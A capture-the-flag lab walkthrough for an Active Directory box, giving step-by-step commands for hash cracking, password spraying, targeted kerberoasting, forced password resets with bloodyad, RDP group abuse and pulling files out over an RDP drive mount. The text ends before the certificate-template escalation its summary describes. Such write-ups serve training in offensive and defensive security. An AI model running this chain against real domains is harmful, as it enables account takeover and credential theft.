# Lab Report - 404 Bank


# Overview 
---
- **Difficulty**: Medium
- **Platform**: Windows - Active Directory
- **Link**: https://www.hacksmarter.org/courses/bd8a0659-8afe-40b4-9e95-0fe932850773

## Resolution Summary 
---
We began by enumerating the web application on port 80, allowing us to find an executable that we downloaded and from which we extracted a base64 encoded MD5 hash, which we cracked. After building a list of usernames using names from the web application and validating them, we sprayed the previously found password and gained access as `karl.hackermann`. Next, we abused `GenericWrite` over `tom.reboot` to perform a targeted kerberoasting attacking, allowing us to recover the user's cleartext password. Afterwards, we abused `ForceChangePassword` over `robert.graef`, which allowed us to also abuse `ForceChangePassword` over `jan.tresor`. Following that, we abused `AddMember` over the RDP group to add `jan.tresor` there and gain RDP access, allowing us to recover deleted emails with valuable information, such as credentials for `daniel.hoffmann`. After that, we enabled the `svc.services` account, abused `ForceChangePassword` over `webadmin` and recovered a password-protected backup zip file, which we could access using a password on the web application. Accessing the backup archive allowed us to recover credentials for the `svc.services` user, which was ultimately used to exploit ESC4 on the `Vuln-ESC4` template, allowing us to make it vulnerable to ESC1, gain a certificate as administrator, then authenticate with it and use an LDAP shell to create and add a new user to the Domain Admins group, successfully compromising the AD domain.

# Walkthrough 
---
- First of all, we ran an Nmap scan in order to find open ports on the target. We discovered a web application running on port 80:
```bash
sudo nmap 10.1.78.184 -p- -vv
```
<p align="center">
  
</p>
- Upon accessing the web application, we found a section mentioning the firm's team. Therefore, we saved names of the three members in order to generate a list of plausible usernames: 
```bash
http://10.1.78.184/

cat names.txt
#Output
Karl Hackermann
Robert Graef
Alex Meier
```
<p align="center">
  
</p>
- Afterwards, we generated a list plausible usernames and validated them. We found two domain users:
```bash
/opt/UserEnum/username-anarchy/username-anarchy -i names.txt > possible_users.txt
kerbrute userenum -d 404finance.local --dc 10.1.78.184 possible_users.txt
```
<p align="center">
  
</p>
- Next, we further explored the web application and found a executable that we could download.
```bash
http://10.1.78.184/services.html
```
<p align="center">
  
</p>
- After downloading it, we inspected it and recovered a base64 encoded string: 
```bash
strings CorpBankDialer.exe
```
<p align="center">
  
</p>
- After decoded it, we discovered that it was an MD5 hash, which we cracked, therefore revealing a cleartext password: 
```bash
echo 'ZGQyZWYzNDUzMGRlN2U1YmVmMjJhMDVlN2U1ZGQxNzg=' | base64 -d
hashcat -m 0 'dd2ef34530de7e5bef22a05e7e5dd178'  ~/Downloads/rockyou.txt
```
<p align="center">
  
</p>
- After spraying this password against our list of usernames we built earlier, we gained a credentialed access to the domain: 
```bash
nxc smb 10.1.78.184 -u valid_users.txt -p 'Password123!!' --continue-on-success
```
<p align="center">
  
</p>
- Having a credentialed access to the domain, we started by collecting Bloodhound data with the aim of uncovering an attack path that would allow us to further our access into the domain: 
```bash
nxc ldap 10.1.78.184 -u karl.hackermann -p 'Password123!!' --bloodhound --collection all --dns-server 10.1.78.184
```
<p align="center">
  
</p>
- Using Bloodhound, we found the following exploitation chain: 
<p align="center">
  
</p>
- First, we abuse `GenericWrite` over `tom.reboot` to perform a targeted kerberoasting attack: 
```bash
nxc ldap 10.1.78.184 -u karl.hackermann -p 'Password123!!' --kerberoasting tom_krb.txt --targeted-kerberoast tom.reboot --dns-server 10.1.78.184 --kdcHost 10.1.78.184
```
<p align="center">
  
</p>
- **Side Note**: In the command above, we had to explicitly specify the IP (`--kdcHost`) that Netexec should query for the Kerberos process, as if we only relied on the DNS server's records, Netexec would try to query what seemed to be an internal IP address (`192.168.178.92`) leading to a connection refused error. The error may stem from the DNS records on the DNS server (they may point to internal IPs). See image below:
<p align="center">
  
</p>
- Having a TGS, we cracked it and recovered the cleartext password of the `tom.reboot` user: 
```bash
hashcat -m 13100 tom_krb.txt ~/Downloads/rockyou.txt
```
<p align="center">
  
</p>
- Next, we abused `ForceChangePassword` over `robert.graef` to change its password and compromise him: 
```bash
bloodyad -H 10.1.78.184 -u tom.reboot -p 'P@ssw0rd123' set password robert.graef 'Password123!'
```
<p align="center">
  
</p>
- Next, we added ourselves to the `Remote Desktop Users` group to be able to RDP into the target: 
```bash
bloodyad -H 10.1.78.184 -u robert.graef -p 'Password123!' add groupMember 'Remote Desktop Users' robert.graef
```
<p align="center">
  
</p>
- Once we accessed the RDP session, we noticed that the user `jan.tresor` had a user folder in the machine. Furthermore, we noticed that we had `ForceChangePassword` over that user: 
```bash
xfreerdp3 /v:10.1.78.184 /u:robert.graef /p:'Password123!'
```
<p align="center">
  
</p>
<p align="center">
  
</p>
- Therefore, we abused `ForceChangePassword` to change `jan.tresor`'s password: 
```bash
bloodyad -H 10.1.78.184 -u robert.graef -p 'Password123!' set password jan.tresor 'Password123!'
```
<p align="center">
  
</p>
- And added the user to the `Remote Desktop Users` group to be able to gain a session as them: 
```bash
bloodyad -H 10.1.78.184 -u robert.graef -p 'Password123!' add groupMember 'Remote Desktop Users' jan.tresor
```
<p align="center">
  
</p>
- Then we logged in via RDP: 
```bash
xfreerdp3 /v:10.1.78.184 /u:jan.tresor /p:'Password123!'
```

- Upon accessing our session, we noticed that the Recycle Bin was not empty, and we found 4 files that we selected and restored: 
<p align="center">
  
</p>
- From these emails we retain three crucial pieces of information: 
	- First, the `svc.services` is disabled, and `robert.graef` could enable it
	- Second, the password (`RemoteAccess!2024`) of `daniel.hoffmann`, which also had a user folder (thus, maybe we can find `svc.services` password there) 
	- Last, that archives uses passwords inspired from the firm's history
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
- Following that, we connected over RDP as `robert.graef` again and enabled the `svc.services` account: 
```bash
xfreerdp3 /v:10.1.78.184 /u:robert.graef /p:'Password123!'
```

```powershell
Enable-ADAccount -Identity svc.services
Get-ADUser -Identity 'svc.services' -Properties Enabled | Select-Object Name, SamAccountName, Enabled
```
<p align="center">
  
</p>
- After Inspecting `daniel.hoffmann` privileges, we noticed that he was a member of the `Remote Management Users` group, allowing us to log in via WinRM.
<p align="center">
  
</p>
- Nevertheless, since we could add any domain user to the `Remote Desktop Users` group, we added `daniel.hoffmann` in order to be able to log in over RDP
```bash
bloodyad -H 10.1.78.184 -u robert.graef -p 'Password123!' add groupMember 'Remote Desktop Users' daniel.hoffmann
```
<p align="center">
  
</p>
- After logging in via RDP, we retrieved the first flag:
```bash
xfreerdp3 /v:10.1.78.184 /u:daniel.hoffmann /p:'RemoteAccess!2024'
```
<p align="center">
  
</p>
- Furthermore, we noticed that `daniel.hoffmann` had `ForceChangePassword` over the `webadmin` user.
<p align="center">
  
</p>
- Hence, we abuse this ACL to change the `webadmin` user's password. We also added him to the RDP group to be able to have a desktop session afterwards: 
```bash
bloodyad -H 10.1.78.184 -u robert.graef -p 'Password123!' add groupMember 'Remote Desktop Users' webadmin
bloodyad -H 10.1.78.184 -u daniel.hoffmann -p 'RemoteAccess!2024' set password webadmin 'Password123!'
```
<p align="center">
  
</p>
- Next, we authenticated via RDP as `webadmin`: 
```bash
xfreerdp3 /v:10.1.78.184 /u:webadmin /p:'Password123!' /drive:transfer,/tmp/test
```

- After exploring the file system, we noticed that we had access to the `inetpub` directory (which wasn't the case with other users) and we also found a backup zip file (`config_backup.zip`): 
```powershell
ls C:\inetpub\wwwroot\Port5000
```
<p align="center">
  
</p>
- We transferred it to our attacking machine by copying it to the transfer directory we mounted, which will make the file available under `/tmp/test/` locally
```bash
ls /tmp/test
```
<p align="center">
  
</p>
<p align="center">
  
</p>
- Recalling the email about passwords used to protect archive files, we browsed the `http://10.1.78.184/history.html` and found a string that could be the answer.
<p align="center">
  
</p>
- Therefore, we tried to access the archive and we could crack it open using the `DontmessWithTexas` password, allowing us to recover the password of the `svc.services` account: 
<p align="center">
  
</p>
- We confirmed that the credentials were valid with: 
```bash
nxc smb 10.1.78.184 -u svc.services -p 'S3rv1cePower2024!'
```
<p align="center">
